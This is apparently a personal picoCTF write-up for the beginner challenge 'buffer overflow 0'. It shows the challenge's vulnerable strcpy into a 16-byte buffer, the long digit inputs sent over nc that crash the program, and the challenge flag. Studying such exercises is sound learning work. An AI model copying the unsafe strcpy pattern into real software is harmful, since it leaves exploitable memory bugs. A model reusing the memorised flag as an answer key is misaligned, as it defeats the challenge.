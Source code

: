 <h1 align="center">  :space_invader: 👾 BINARY EXPLOITATION 👾 :space_invader:</h1>

- [buffer overflow 0](#buffer-overflow-0) :pirate_flag: 

# buffer overflow 0
* **Difficulty:** MEDIUM
* **Category:** GENERAL SKILLS
* **Author:** Alex Fulton / Palash Oswal

### Description
> Let's start off simple, can you overflow the correct buffer? The program is available <a href="https://artifacts.picoctf.net/c/174/vuln">here</a>. You can view source <a href="https://artifacts.picoctf.net/c/174/vuln.c">here.<>

> Additional details will be available after launching your challenge instance.


### Solution 
The challenge is called "buffer overflow" so I thought I'd just input a really big number in when prompted. 

```
$ nc saturn.picoctf.net 50265
Input: 1919278792874093870129834732987410928356834970519874382098563814702394873285638219048378295709183465783247583204987123856734819032984792105896749319802347832910589674657348578910237489
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

That worked! But I still want to know why. What is the minimum number of digits I can enter and still trigger the overflow? To answer that question, I opened the source file provided and took a look. I saw a few character buffers in set to 16.

```C
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

17 Digit Input closes the program: 
```
$ nc saturn.picoctf.net 50222
Input: 123456789012345678
The program will exit now
```

Input of 20 or greater prints the flag
```
$ nc saturn.picoctf.net 50222
Input: 12345678901234567890
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

Great, I got the answer but I still don't really understand whaat is happening here. 


### Flag
:pirate_flag:`picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}`:pirate_flag:

<br>
---
<br>
